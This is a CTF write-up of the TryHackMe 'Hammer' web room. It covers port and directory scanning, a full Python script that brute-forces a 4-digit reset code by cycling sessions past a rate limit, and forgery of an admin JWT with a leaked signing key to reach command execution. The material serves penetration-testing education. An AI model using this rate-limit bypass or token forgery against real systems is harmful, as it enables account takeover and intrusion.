


# Hammer

This is a **medium** TryHackMe room in the **web category** which says we need to use our exploitation skills to bypass the authentication mechanisms on the website and finally **get RCE on the machine.**

## Recon

We start like usual with a port scan on the machine:

```
sudo nmap -sVC hammer.thm              
Starting Nmap 7.95 ( https://nmap.org ) at 2025-07-29 12:32 EEST
Nmap scan report for hammer.thm (10.10.150.71)
Host is up (0.069s latency).
Not shown: 999 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 c0:df:cc:a9:1e:4b:8c:e2:f2:ce:1f:47:29:a7:f0:35 (RSA)
|   256 55:96:38:65:ad:b0:8c:14:1f:ff:5b:9c:45:47:b7:d6 (ECDSA)
|_  256 85:eb:a4:7a:26:70:80:5c:ce:53:e1:99:e7:8a:7d:b3 (ED25519)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

We find only **port 22 for SSH** , but since we know this is a web challenge we need to go further than the top 1000 ports. I'll do a Syn Scan on all ports with -Pn to not ping the targets so we don't waste a lot of time and then a -sVC for version and default scripts on the ports we find:

```
ting Nmap 7.95 ( https://nmap.org ) at 2025-07-29 12:32 EEST
Nmap scan report for hammer.thm (10.10.150.71)
Host is up (0.074s latency).
Not shown: 65533 closed tcp ports (reset)
PORT     STATE SERVICE
22/tcp   open  ssh
1337/tcp open  waste

sudo nmap -sVC -p 22,1337 hammer.thm
Starting Nmap 7.95 ( https://nmap.org ) at 2025-07-29 12:33 EEST
Nmap scan report for hammer.thm (10.10.150.71)
Host is up (0.067s latency).
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 c0:df:cc:a9:1e:4b:8c:e2:f2:ce:1f:47:29:a7:f0:35 (RSA)
|   256 55:96:38:65:ad:b0:8c:14:1f:ff:5b:9c:45:47:b7:d6 (ECDSA)
|_  256 85:eb:a4:7a:26:70:80:5c:ce:53:e1:99:e7:8a:7d:b3 (ED25519)
1337/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Login
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 15.01 seconds
```

We enter the page and we see a basic authentication portal.


I'll intercept the request in burp, save it into a file in my computer and what I like to do first is to sqlmap it so maybe we get some database dumps.

```
POST / HTTP/1.1
Host: hammer.thm:1337
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 36
Origin: http://hammer.thm:1337
Connection: keep-alive
Referer: http://hammer.thm:1337/
Cookie: PHPSESSID=nf1idpuolvr30lbqtnpk50fg8s
Upgrade-Insecure-Requests: 1
Priority: u=0, i

email=email%40email.com&password=asd

sqlmap -r login.req --batch --dbs --level=5 --risk=3
```

In the login.req file we replace the email section with a '*' so the sqlmap does it's tests in the email portion of the login request. While we're waiting for results we check source code for any things that may be left by mistake and try different payloads on it. We enter the forgot password section and we see that that file is .php so we can start with that while doing the dirsearch.

We weren't successful with the sqlmap, so I'm gonna continue doing the dirsearch because we don't have any possible e-mails that could help us. While doing our dirsearch we discovered these:

```
dirsearch -u http://hammer.thm:1337/ -r

  _|. _ _  _  _  _ _|_    v0.4.3
 (_||| _) (/_(_|| (_| )

Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 25 | Wordlist size: 11460

Output File: /home/piscu/random/reports/http_hammer.thm_1337/__25-07-29_12-56-38.txt

Target: http://hammer.thm:1337/

[12:56:38] Starting: 
[12:56:43] 403 -  277B  - /.ht_wsr.txt
[12:56:43] 403 -  277B  - /.htaccess.bak1
[12:56:43] 403 -  277B  - /.htaccess.sample
[12:56:43] 403 -  277B  - /.htaccess.orig
[12:56:43] 403 -  277B  - /.htaccess.save
[12:56:43] 403 -  277B  - /.htaccess_extra
[12:56:43] 403 -  277B  - /.htaccess_orig
[12:56:43] 403 -  277B  - /.htaccess_sc
[12:56:43] 403 -  277B  - /.htaccessBAK
[12:56:43] 403 -  277B  - /.htaccessOLD2
[12:56:43] 403 -  277B  - /.htaccessOLD
[12:56:43] 403 -  277B  - /.htm
[12:56:43] 403 -  277B  - /.html
[12:56:43] 403 -  277B  - /.htpasswd_test
[12:56:43] 403 -  277B  - /.htpasswds
[12:56:43] 403 -  277B  - /.httr-oauth
[12:56:46] 403 -  277B  - /.php
[12:57:16] 200 -   63B  - /composer.json
[12:57:16] 200 -    0B  - /config.php
[12:57:20] 302 -    0B  - /dashboard.php  ->  logout.php
[12:57:31] 301 -  320B  - /javascript  ->  http://hammer.thm:1337/javascript/
Added to the queue: javascript/
[12:57:36] 302 -    0B  - /logout.php  ->  index.php
[12:57:42] 301 -  320B  - /phpmyadmin  ->  http://hammer.thm:1337/phpmyadmin/
Added to the queue: phpmyadmin/
[12:57:44] 200 -    3KB - /phpmyadmin/doc/html/index.html
[12:57:44] 200 -    3KB - /phpmyadmin/
[12:57:44] 200 -    3KB - /phpmyadmin/index.php
[12:57:48] 403 -  277B  - /server-status/
Added to the queue: server-status/
[12:57:48] 403 -  277B  - /server-status
[12:58:00] 200 -  498B  - /vendor/
[12:58:00] 200 -    0B  - /vendor/composer/autoload_psr4.php
[12:58:00] 200 -    0B  - /vendor/autoload.php
[12:58:00] 200 -    0B  - /vendor/composer/autoload_real.php
[12:58:00] 200 -    0B  - /vendor/composer/autoload_classmap.php
[12:58:00] 200 -    2KB - /vendor/composer/installed.json
[12:58:00] 200 -    0B  - /vendor/composer/ClassLoader.php
[12:58:00] 200 -    0B  - /vendor/composer/autoload_namespaces.php
[12:58:00] 200 -    1KB - /vendor/composer/LICENSE
[12:58:00] 200 -    0B  - /vendor/composer/autoload_static.php
```

Interesting here in my opinion is the config.php, but it's empty, and while searching through them I found that the composer.json and /vendor/composer/installed.json files tells us about the installed packages and their versions.


This tells us that the application uses firebase/php-jwt v6.10.0 which is a widely used PHP library to encode/decode JSON Web Tokens. With my search I couldn't really find anything useful and I got stuck for a little while. I tried looking through the /vendor and reading through the folders, but I couldn't disclose any code from the .php files and the .md/.json files aren't really helpful, just notes left by the devs of the packages.

When I looked inside the source code again I saw a comment left that I missed out, and could be a big piece of the puzzle:


**Bingo!** This could be the key to find directories that I couldn't have seen before with a normal wordlist.

```
feroxbuster --url http://hammer.thm:1337/ --wordlist hmrsearch.txt 
                                                                                                                                                                                    
 ___  ___  __   __     __      __         __   ___
|__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
|    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
by Ben "epi" Risher 🤓                 ver: 2.11.0
───────────────────────────┬──────────────────────
 🎯  Target Url            │ http://hammer.thm:1337/
 🚀  Threads               │ 50
 📖  Wordlist              │ hmrsearch.txt
 👌  Status Codes          │ All Status Codes!
 💥  Timeout (secs)        │ 7
 🦡  User-Agent            │ feroxbuster/2.11.0
 💉  Config File           │ /etc/feroxbuster/ferox-config.toml
 🔎  Extract Links         │ true
 🏁  HTTP methods          │ [GET]
 🔃  Recursion Depth       │ 4
───────────────────────────┴──────────────────────
 🏁  Press [ENTER] to use the Scan Management Menu™
──────────────────────────────────────────────────
301      GET        9l       28w      320c http://hammer.thm:1337/hmr_images => http://hammer.thm:1337/hmr_images/
301      GET        9l       28w      317c http://hammer.thm:1337/hmr_css => http://hammer.thm:1337/hmr_css/
200      GET       47l      111w     1664c http://hammer.thm:1337/reset_password.php
200      GET        6l     2304w   232914c http://hammer.thm:1337/hmr_css/bootstrap.min.css
200      GET       36l       83w     1326c http://hammer.thm:1337/
301      GET        9l       28w      316c http://hammer.thm:1337/hmr_js => http://hammer.thm:1337/hmr_js/
200      GET        2l     1294w    89501c http://hammer.thm:1337/hmr_js/jquery-3.6.0.min.js
301      GET        9l       28w      318c http://hammer.thm:1337/hmr_logs => http://hammer.thm:1337/hmr_logs/
200      GET        9l      219w     1984c http://hammer.thm:1337/hmr_logs/error.logs
200      GET     1676l     9897w   792599c http://hammer.thm:1337/hmr_images/hammer.webp
```

While looking through these directories we find an interesting information, in the error.logs file we can see that a user failed a login attempt for /admin-login:


We can probably test this either in the log in form or in the reset password one to see if there are different prompts for existing users. Unfortunately in the log in form we have:


This doesn't really give us any info if the account exists or not, but we still have another chance.


**This is it!** The tester@hammer.thm account is valid. We have to think for a valid way to log in to that account.

At first I tried SQLi to get into the account, which didn't really work. After that I thought that brute-forcing still must be avoided at must be used only as a last resort for these kind of things. Then I remembered the reset password form, and there is only a 4-digit code, which couldn't be really that hard cracking. I start by sending it into the repeater and see how it behaves, especially since we have the PHPSESSID cookie.

## Exploiting

When I intercepted the 'Submit Code' request and send it, we can see that we have a Rate-Limit of 10 requests per PHPSESSID. 


I tried sending it until 0 to see what happens.


We're just trying to see how the app behaves after we've done those request and after we exceed the limit with that request. I believe we should get another PHPSESSID that requests a password change so we can do a lot more requests than just 7-8-9-10 that we get with every PHPSESSID. I will try it a little bit manually to see how it behaves and I will try to write a script so it does it automatically if what I've guessed is right.


**That's exactly what we need to do!** I'll start writing the script so we can hopefully get the 4-digit code to reset the password. 

I've written this script in python (which is a little bit slow but the best I can do) which hopefully cracks the code and we get the token we need to restart the password:

```
import requests
import time
from concurrent.futures import ThreadPoolExecutor, as_completed
import threading

target = "http://hammer.thm:1337/reset_password.php"
max_threads = 4               
codes_per_session = 8         
total_codes = 10000           
delay_between_batches = 1    

found = threading.Event()
found_code = None
lock = threading.Lock()

session_lock = threading.Lock()
current_session = None
current_sessid = None


def get_new_session():
    """Start a new session and get fresh PHPSESSID."""
    session = requests.Session()
    try:
        r = session.post(target, data={"email": "tester@hammer.thm"}, allow_redirects=False)
        if "PHPSESSID" in r.cookies:
            sessid = r.cookies["PHPSESSID"]
            print(f"[+] Got new PHPSESSID: {sessid}")
            return session, sessid
        else:
            print("[!] No PHPSESSID returned.")
    except Exception as e:
        print(f"[!] Error getting new session: {e}")
    return None, None


def try_code(code, session, sessid):
    if found.is_set():
        return

    formatted_code = f"{code:04d}"
    print(f"[*] Trying code: {formatted_code}")

    data = {
        "recovery_code": formatted_code,
        "s": "180"
    }

    headers = {
        "Origin": "http://hammer.thm:1337",
        "Referer": target,
        "Cookie": f"PHPSESSID={sessid}"
    }

    try:
        response = session.post(target, data=data, headers=headers, timeout=5)
        if "Invalid or expired recovery code!" not in response.text:
            with lock:
                found.set()
                global found_code
                found_code = formatted_code
            return f"[✔] SUCCESS! Code: {formatted_code}"
        else:
            return f"[✘] Code {formatted_code} is invalid."
    except Exception as e:
        return f"[!] Request failed for code {formatted_code}: {e}"


if __name__ == "__main__":
    print("[*] Starting brute-force (reuse session every 8 codes)")

    with ThreadPoolExecutor(max_workers=max_threads) as executor:
        for batch_start in range(0, total_codes, codes_per_session):
            if found.is_set():
                break

            session, sessid = get_new_session()
            if not session or not sessid:
                print("[!] Failed to get a session, skipping batch.")
                continue

            codes_this_batch = range(batch_start, min(batch_start + codes_per_session, total_codes))
            for i in range(0, len(codes_this_batch), max_threads):
                if found.is_set():
                    break
                batch_codes = codes_this_batch[i:i + max_threads]
                futures = [executor.submit(try_code, code, session, sessid) for code in batch_codes]

                for future in as_completed(futures):
                    result = future.result()
                    if result:
                        print(result)

                time.sleep(delay_between_batches)

    if found_code:
        print(f"\n[✔] Recovery code found: {found_code}")
    else:
        print("\n[✘] No valid code found.")
```

Feel free to copy mine, but it took a little bit of running, but **we successfully got it!** I went into the restart password form, entered the token and it prompted me to enter a new password and confirm it. I logged into the account and we're greeted by this:



And we have the first flag! Below the flag is a textbox in which you should input a command. I tried whoami but I wasn't successful. The server doesn't have persistent sessions and it just logs you out after a couple of seconds. I tried to intercept the request with burp for the execute command so we can send them without logging in and having the JWT saved for us as well.

When I tried whoami the page said this:

```
HTTP/1.1 200 OK
Date: Tue, 29 Jul 2025 13:59:43 GMT
Server: Apache/2.4.41 (Ubuntu)
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Content-Length: 31
Keep-Alive: timeout=5, max=100
Connection: Keep-Alive
Content-Type: application/json

{"error":"Command not allowed"}
```

So the commands are most likely filtered. I got the same response for id as well. The first command which executed for me was ls which listed the items in the folder that we're in.

```
HTTP/1.1 200 OK
Date: Tue, 29 Jul 2025 14:00:39 GMT
Server: Apache/2.4.41 (Ubuntu)
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Content-Length: 179
Keep-Alive: timeout=5, max=100
Connection: Keep-Alive
Content-Type: application/json

{"output":"redacted.key\ncomposer.json\nconfig.php\ndashboard.php\nexecute_command.php\nhmr_css\nhmr_images\nhmr_js\nhmr_logs\nindex.php\nlogout.php\nreset_password.php\nvendor\n"}
```

I tried doing ls ../../../../../home to see if we can get any response, but it just said 'Command not allowed' again. I'll try different types of payloads and see which one can get us RCE. I tried reading the contents of the .key fuke but wasn't successful with any types of reads, not even with more, less, head, tail, base64, xxd, nothing seems to work. I tried doing it so we can forge an admin JWT and have more permissions on what commands we can execute.

I tried decoding the JWT using jwt.io and this is how our token looks:

```
{
  "typ": "JWT",
  "alg": "HS256",
  "kid": "/var/www/mykey.key"
}

{
  "iss": "http://hammer.thm",
  "aud": "http://hammer.thm",
  "iat": 1753797077,
  "exp": 1753800677,
  "data": {
    "user_id": 1,
    "email": "tester@hammer.thm",
    "role": "user"
  }
}
```

## Privilege Escalation

I tried to view the source of the .key file that we found and **we got something!** It's something like a hash value, maybe we could use it to forge a JWT that makes us an admin.



I'll get a script that generates firstly a user token for us, to see if it works:

```
import jwt

# The leaked secret key
secret_key = redacted

# Custom JWT header with 'kid' pointing to the key file path
header = {
    "typ": "JWT",
    "alg": "HS256",
    "kid": "/var/www/html/redacted"
}

# Payload with admin role and realistic timestamps
payload = {
    "iss": "http://hammer.thm",
    "aud": "http://hammer.thm",
    "iat": 1753797077,
    "exp": 1753800677,
    "data": {
        "user_id": 1,
        "email": "tester@hammer.thm",
        "role": "user"
    }
}

# Generate the JWT
token = jwt.encode(payload, secret_key, algorithm="HS256", headers=header)

print(token)
```

I got stuck after creating it because my machine terminated... I thought my generation method is wrong, but after I got it booted up again I tried inserting the JWT in my burp request and **we got a response!** I'll quickly generate another JWT for admin and try different commands.

After I generated it I went into burp, changed the token and tried ls ../../../../../home and **we got results!** After that I just cat-ed into the location of the flag and we got it!


Very nice room, a little headache, but really fun nonetheless! Special thanks again for TryHackMe and especially for 1337rce the creator of the room!